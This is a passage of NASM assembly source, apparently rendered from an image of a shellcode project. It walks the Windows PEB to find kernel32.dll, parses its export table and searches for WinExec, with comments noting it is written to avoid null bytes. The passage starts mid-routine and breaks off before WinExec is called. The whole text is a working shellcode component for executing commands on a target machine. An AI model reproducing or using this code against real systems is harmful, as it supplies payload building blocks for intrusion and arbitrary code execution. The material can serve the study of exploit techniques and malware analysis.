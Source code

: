 ```nasm
	push 456e6957h
	mov [ebp-4], esp 		; var4 = "WinExec\x00"

	; Find kernel32.dll base address
	xor esi, esi			; esi = 0
        mov ebx, [fs:30h + esi]  	; written this way to avoid null bytes
	mov ebx, [ebx + 0x0C] 
	mov ebx, [ebx + 0x14] 
	mov ebx, [ebx]	
	mov ebx, [ebx]	
	mov ebx, [ebx + 0x10]		; ebx holds kernel32.dll base address
	mov [ebp-8], ebx 		; var8 = kernel32.dll base address

	; Find WinExec address
	mov eax, [ebx + 3Ch]		; RVA of PE signature
	add eax, ebx       		; Address of PE signature = base address + RVA of PE signature
	mov eax, [eax + 78h]		; RVA of Export Table
	add eax, ebx 			; Address of Export Table

	mov ecx, [eax + 24h]		; RVA of Ordinal Table
	add ecx, ebx 			; Address of Ordinal Table
	mov [ebp-0Ch], ecx 		; var12 = Address of Ordinal Table

	mov edi, [eax + 20h] 		; RVA of Name Pointer Table
	add edi, ebx 			; Address of Name Pointer Table
	mov [ebp-10h], edi 		; var16 = Address of Name Pointer Table

	mov edx, [eax + 1Ch] 		; RVA of Address Table
	add edx, ebx 			; Address of Address Table
	mov [ebp-14h], edx 		; var20 = Address of Address Table

	mov edx, [eax + 14h] 		; Number of exported functions

	xor eax, eax 			; counter = 0

	.loop:
	        mov edi, [ebp-10h] 	; edi = var16 = Address of Name Pointer Table
	        mov esi, [ebp-4] 	; esi = var4 = "WinExec\x00"
	        xor ecx, ecx

	        cld  			; set DF=0 => process strings from left to right
	        mov edi, [edi + eax*4]	; Entries in Name Pointer Table are 4 bytes long
	        			; edi = RVA Nth entry = Address of Name Table * 4
	        add edi, ebx       	; edi = address of string = base address + RVA Nth entry
	        add cx, 8 		; Length of strings to compare (len('WinExec') = 8)
	        repe cmpsb        	; Compare the first 8 bytes of strings in 
	        			; esi and edi registers. ZF=1 if equal, ZF=0 if not
	        jz start.found

	        inc eax 		; counter++
	        cmp eax, edx    	; check if last function is reached
	        jb start.loop 		; if not the last -> loop

	        add esp, 26h      		
	        jmp start.end 		; if function is not found, jump to end

	.found:
		; the counter (eax) now holds the position of WinExec

	        mov ecx, [ebp-0Ch]	; ecx = var12 = Address of Ordinal Table
	        mov edx, [ebp-14h]  	; edx = var20 = Address of Address Table

	        mov ax, [ecx + eax*2] 	; ax = ordinal number = var12 + (counter * 2)
```